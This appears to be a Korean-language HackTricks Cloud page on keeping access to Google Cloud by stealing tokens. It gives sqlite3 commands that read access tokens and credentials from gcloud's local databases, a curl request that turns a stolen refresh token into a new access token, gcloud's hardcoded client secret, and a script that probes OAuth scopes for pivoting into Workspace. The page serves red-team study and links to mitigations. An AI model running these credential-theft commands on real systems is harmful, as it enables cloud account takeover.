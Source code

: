 # GCP - Token Persistance

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### 인증된 사용자 토큰

사용자의 **현재 토큰**을 얻으려면 다음을 실행할 수 있습니다:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

이 페이지에서 **gcloud를 사용하여 이 토큰을 직접 사용하는 방법**을 확인하세요:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

**새 액세스 토큰을 생성하는** 세부정보를 얻으려면 다음을 실행하세요:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

**`$HOME/.config/gcloud/application_default_credentials.json`**와 **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`**에서 리프레시 토큰을 찾는 것도 가능합니다.

**리프레시 토큰**, 클라이언트 ID 및 클라이언트 비밀을 사용하여 새로 갱신된 액세스 토큰을 얻으려면 다음을 실행하십시오:

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

리프레시 토큰의 유효성은 **관리자** > **보안** > **Google Cloud 세션 제어**에서 관리할 수 있으며, 기본적으로 16시간으로 설정되어 있지만 만료되지 않도록 설정할 수 있습니다:

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

### 인증 흐름

`gcloud auth login`과 같은 것을 사용할 때의 인증 흐름은 브라우저에서 프롬프트를 열고 모든 범위를 수락한 후 브라우저가 도구에 의해 열려 있는 http 포트에 다음과 같은 요청을 보냅니다:
```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```
그런 다음, gcloud는 하드코딩된 `client_id` (`32555940559.apps.googleusercontent.com`)와 **`client_secret`** (`ZmssLNjJy2998hD4CTg2ejr2`)를 사용하여 **최종 리프레시 토큰 데이터**를 가져옵니다.

{% hint style="danger" %}
로컬호스트와의 통신은 HTTP로 이루어지므로, 리프레시 토큰을 얻기 위해 데이터를 가로챌 수 있지만, 이 데이터는 단 1회만 유효하므로 무의미합니다. 파일에서 리프레시 토큰을 읽는 것이 더 쉽습니다.
{% endhint %}

### OAuth 범위

모든 Google 범위는 [https://developers.google.com/identity/protocols/oauth2/scopes](https://developers.google.com/identity/protocols/oauth2/scopes)에서 찾거나 다음을 실행하여 얻을 수 있습니다:

{% code overflow="wrap" %}
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-A/\-\._]*' | sort -u
```
{% endcode %}

이 스크립트를 사용하여 **`gcloud`**가 인증에 사용하는 애플리케이션이 지원할 수 있는 범위를 확인할 수 있습니다:
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope         \r"
if ! curl -v "https://accounts.google.com/o/oauth2/auth?response_type=code&client_id=32555940559.apps.googleusercontent.com&redirect_uri=http%3A%2F%2Flocalhost%3A8085%2F&scope=openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fappengine.admin+$scope+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fsqlservice.login+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcompute+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Faccounts.reauth&state=AjvFqBW5XNIw3VADagy5pvUSPraLQu&access_type=offline&code_challenge=IOk5F08WLn5xYPGRAHP9CTGHbLFDUElsP551ni2leN4&code_challenge_method=S256" 2>&1 | grep -q "error"; then
echo ""
echo $scope
fi
done
```
이것을 실행한 후 이 앱이 다음 범위를 지원하는지 확인되었습니다:
```
https://www.googleapis.com/auth/appengine.admin
https://www.googleapis.com/auth/bigquery
https://www.googleapis.com/auth/cloud-platform
https://www.googleapis.com/auth/compute
https://www.googleapis.com/auth/devstorage.full_control
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/userinfo.email
```
흥미로운 점은 이 앱이 **`drive`** 범위를 지원한다는 것입니다. 이는 공격자가 사용자가 이 범위로 토큰을 생성하도록 강제할 경우 GCP에서 Workspace로 상승할 수 있게 할 수 있습니다.

**여기에서** [**이것을 악용하는 방법을 확인하세요**](../gcp-to-workspace-pivoting/#abusing-gcloud)**.**

### 서비스 계정

인증된 사용자와 마찬가지로, 서비스 계정의 **비공개 키 파일을 손상시키면 일반적으로 원하는 만큼 **접근할 수 있습니다**.\
그러나 서비스 계정의 **OAuth 토큰을 훔치면 더욱 흥미로울 수 있습니다. 기본적으로 이러한 토큰은 한 시간 동안만 유용하지만, **피해자가 비공식 API 키를 삭제하면 OAuth 토큰은 만료될 때까지 여전히 유효합니다**.

### 메타데이터

명백히, GCP 환경에서 실행 중인 머신 내부에 있는 한, **메타데이터 엔드포인트에 연락하여 해당 머신에 연결된 서비스 계정에 접근할 수 있습니다** (이 엔드포인트에서 접근할 수 있는 Oauth 토큰은 일반적으로 범위에 의해 제한된다는 점에 유의하세요).

### 수정 사항

이러한 기술에 대한 몇 가지 수정 사항은 [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)에서 설명되어 있습니다.

### 참고 자료

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하세요!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
